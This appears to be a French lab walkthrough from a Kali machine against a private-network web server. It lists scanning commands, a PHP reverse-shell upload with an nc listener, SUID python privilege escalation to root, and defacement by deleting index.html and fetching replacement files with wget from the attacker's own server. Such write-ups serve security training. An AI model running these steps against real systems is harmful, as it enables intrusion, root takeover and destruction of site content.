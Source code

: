 # Attaque depuis kali:

## Reconnaissance

> nmap 192.168.60.0/24

On trouve un serveur http sur le port 80 sur 192.168.60.10

Visite du site web via le navigateur, on trouve notamment que le serveur utilise php

> dirb http://192.168.60.10/

> dirb http://192.168.60.10/ -X .php

## Reverse shell

Upload de shell.php dans /upload.php

Attente du reverse shell depuis kali:

> nc -nlvp 9001

Ouvrir shell.php dans /uploads

## Escalade de privilèges

Trouver les fichiers avec SUID d'activé:

> find / -perm -u=s -type f 2>/dev/null

Utiliser python pour l'escalade:

> cd /usr/bin

> ./python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

Vérifier qu'on est root:

> whoami

## Défiguration

Depuis le reverse shell:

> cd /var/www/html

Vérifier qu'on est dans le bon dossier:

> ls 

Depuis un nouveau terminal kali, depuis le dossier server sur le bureau, lancher un serveur pour transférer les fichiers:

> python -m SimpleHTTPServer

Depuis le reverse shell, supprimer index.html, puis télécharger les fichiers nécessaires à afficher la nouvelle page d'acceuil:

> rm index.html

> wget http://192.168.60.11:8000/index.html

> wget http://192.168.60.11:8000/index.html
